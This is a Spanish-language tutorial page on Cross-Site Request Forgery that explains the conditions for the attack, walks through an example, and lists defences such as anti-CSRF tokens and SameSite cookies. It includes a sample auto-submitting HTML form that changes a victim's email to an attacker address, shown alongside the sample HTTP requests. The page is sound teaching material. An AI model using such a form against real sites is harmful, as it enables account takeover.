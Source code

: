 [Volver al inicio](../Readme.md)
# CSRF (Cross Site Request Forgery)
## Introducción.
Muchas aplicaciones web utilizan algún método de autenticación para poder realizar operaciones sensibles/críticas tales como modificar la contraseña de acceso, cambio de correo electrónico, etc. Esta autenticación es a menudo realizada en base a sesiones de usuario, de forma que una vez autenticado, se genera una cookie que se almacena en el equipo de dicho usuario. El identificador de sesión que se guarda en la cookie, será enviado en cada una de las transacciones que se realicen en esa aplicación web.

De forma adicional, debemos saber que cuando nos conectamos a un sitio web, algunos de los recursos que utiliza, son cargados desde otro sitio, ya sean imágenes, fuentes de texto, etc. Esto significa que cuando nos logueamos en un sitio web, tanto las peticiones que nosotros realizamos como las que se utilizan para cargar los diferentes recursos del sitio web, van acompañadas de nuestro identificador de sesión. Esta particularidad, ayuda a que se consiga el ataque mediante CSRF.
No obstante, se necesitan algunas condiciones adicionales para que el ataque mediante CSRF sea efectivo.
## ¿Qué condiciones se deben cumplir para que el ataque tenga éxito?
- Evidentemente, el sitio debe ser vulnerable a CSRF.
- Utilizar estrategias de Phishing para engañar a la víctima.
- Se debe realizar una acción relevante, tal como cambiar la contraseña o modificar el correo electrónico.
- Que el sitio web gestione las sesiones en base a cookies y que la víctima esté logueada.
- Que el sitio web tenga una política de cookies "**SameSite**" débil.
- Que al realizar una acción relevante, como el cambio de contraseña, **NO se exija** algún dato impredecible (por ejemplo, que no se exija la contraseña actual).
## ¿Cómo funciona el ataque?
![Proceso ataque CSRF](_images/CSRF-Attack-Okta_2.png)

Imagen obtenida de https://www.okta.com/identity-101/csrf-attack/

En primer lugar, el atacante debe estudiar el funcionamiento del sitio web para entender cómo se realizan las peticiones y asegurarse de que es vulnerable a CSRF.

Imaginemos que el sitio vulnerable utiliza una petición como la que se muestra a continuación para el cambio de correo electrónico (en este caso en formato GET para que se entienda mejor académicamente):

`https://sitiovulnerable.com/email/cambiar?email=usuarioLegitimo@sitiovulnerable.com`

Una muestra de la misma petición en formato POST sería:
```
POST /email/change HTTP/1.1
Host: sitiovulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Cookie: session=Merdf56yhujTFer612gvh8UjleursRgB

email=usuarioLegitimo@sitiovulnerable.com
```
El atacante debe engañar a la víctima mediante alguna estrategia de Phishing, simulando una notificación de la página web legítima, de forma que lo lleve a pulsar sobre un enlace que lo lleve a un sitio web fraudulento, realice una transacción oculta no deseada por la víctima y que beneficiará de alguna manera al atacante.

El HTML del sitio web falso podría ser así:
```html
<html>
    <body>
        <form action="https://sitiovulnerable.com/email/change" method="POST">
            <input type="hidden" name="email" value="atacante@baddomain.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
La petición HTTP generada, debido a la política débil de cookies SameSite, incluiría la cookie de usuario, aunque la petición solicitada por el atacante no pertenece a la web del sitio legítimo:
```
POST /email/change HTTP/1.1
Host: sitiovulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Cookie: session=Merdf56yhujTFer612gvh8UjleursRgB

email=atacante@baddomain.net
```
Lo que se ha conseguido es, mediante la sesión de usuario legítimo, modificar su propio correo, de forma que el atacante puede pedir un cambio de contraseña y cuando el sitio web envíe la petición por correo, no la enviará al usuario legítimo, sino al atacante, que podrá suplantar al usuario legítimo y realizar acciones en su nombre. Si el usuario es un administrador del sistema, el problema sería mucho más grave.
## Formas de prevenir un ataque CSRF
- Utilizar tokens anti-CSRF en lugar de cookies de sesión. El token será un valor **impredecible**, **aleatorio**, generado en el lado del servidor, por lo que el atacante, no podrá preveerlo para preparar una petición HTTP. Este token se suele enviar desde el servidor en un campo oculto del formulario HTML.
- Adoptar una política de cookies SameSite fuerte, de forma que el atacante no pueda incluir sus peticiones junto a las legítimas del sitio web objetivo.
- Realizar una nueva petición de autenticación para realizar las acciones más críticas, como el cambio de contraseña, transferir dinero, etc.
- Exigir datos impredecibles para el atacante, como por ejemplo, pedir la contraseña actual para realizar una cambio de contraseña.

## Bibliografía.
- PortSwigger. (s.f.). Cross-site request forgery (CSRF). https://portswigger.net/web-security/csrf
- Snyk Learn. (s.f.). Cross site request forgery (CSRF). https://learn.snyk.io/lesson/csrf-attack/
- KirstenS. (s.f.). Cross Site Request Forgery (CSRF). https://owasp.org/www-community/attacks/csrf
- Moradov, O. (27/04/2022). 3 Simple CSRF Examples: Understand CSRF Once and For All. Bright. https://brightsec.com/blog/csrf-example/
- Imperva. (s.f.). Cross site request forgery (CSRF) attack. https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
- Ranjan, R. (27/08/2022). Cross site request forgery (CSRF) attack. Medium. https://medium.com/@rajeevranjancom/cross-site-request-forgery-csrf-attack-6949edb9e405
- Andrzej Nidecki, T. (s.f.). Cross-site request forgery (CSRF). Invicti. https://www.invicti.com/learn/cross-site-request-forgery-csrf/
